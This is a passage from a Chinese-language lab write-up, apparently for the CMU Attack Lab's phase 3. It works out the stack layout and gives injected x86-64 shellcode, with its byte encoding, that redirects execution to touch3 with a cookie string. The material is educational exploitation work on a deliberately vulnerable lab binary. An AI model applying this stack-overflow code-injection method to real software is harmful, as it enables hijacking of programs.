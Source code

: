 其中与栈相关的指令包括：

```
hex2match前(touch3中)：
    push   %rbx
    callq hex2match
hex2match:
   0x000000000040184c <+0>:     push   %r12
   0x000000000040184e <+2>:     push   %rbp
   0x000000000040184f <+3>:     push   %rbx

   0x00000000004018f5 <+169>:   pop    %rbx
   0x00000000004018f6 <+170>:   pop    %rbp
   0x00000000004018f7 <+171>:   pop    %r12
                                retq
hex2match后：
    callq strncmp
strncmp:
    retq
```

由于`hexmatch`和`strncmp`是在`touch3`里面调用的，而`touch3`是在执行攻击代码之后调用，在攻击代码中我们将`%rdi`指向字符串的地址，因此我们需要保证的是`touch3`中的`push`和`pop`指令不影响之前的字符串，以免影响`%rdi`指向的值。

在调用`touch3`之前，我们刚刚执行了`ret`指令，其作用是将返回地址赋值给`%rip`并弹出，操作完成后`%rsp`应该在`buf + 48`位置处。我们是通过直接返回到`touch3`的开头位置来执行`touch3`的，而不是`callq touch3`，因此无需往栈中压入下一条指令的地址（当然这里也没有下一条啦~）

通过上述过程分析我们可以看到，栈的最低位置应该是在经过了一下几个步骤之后：

1. `push %rbx`，这里压入了 rbx，栈位置来到了`buf + 40`
2. `callq hex2match`，这里压入了`callq`的下一条指令的地址，栈位置来到了`buf + 32`
3. `push r12`，压入了`r12`，栈位置来到了`buf + 24`
4. `push rbp`，压入了`rbp`，栈位置来到了`buf + 16`
5. `push rbx`，压入了`rbx`，栈位置来到了`buf + 8`

后续主要执行的都是`pop`和`retq`操作，虽然有一个`callq strncmp`，但是栈的位置不可能低于`buf + 8`。因此我们插入的字符串必须在`buf + 8`之前。我们输入的字符串刚好是 8 个字符，1 个字符一个字节，也刚好是 8 个字节，那么就应当插在`buf`处。从`buf + 8`处开始插入攻击代码。

此外：

1. `59b997fa`的字符串编码应该是：`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61`（插在攻击代码前）
2. `buf + 8`处的地址是：`0x5561dc80`（插入返回地址部分），转化成小端法应该是`80 dc 61 55`
3. `touch3`的地址是`0x4018fa`

那么我们的攻击指令应该是：

```
movl $0x5561dc78,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
```

将其放入`ph3.s`中，输入`gcc -c ph3.s`得到`ph3.o`，输入`objdump -d ph3.o > ph3.d`，得到`ph3.d`文件如下：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 78 dc 61 55       	mov    $0x5561dc78,%edi
   5:	48 83 ec 08          	sub    $0x8,%rsp
   9:	c7 04 24 fa 18 40 00 	movl   $0x4018fa,(%rsp)
  10:	c3                   	retq
  11:	90                   	nop
  12:	90                   	nop
  13:	90                   	nop
```
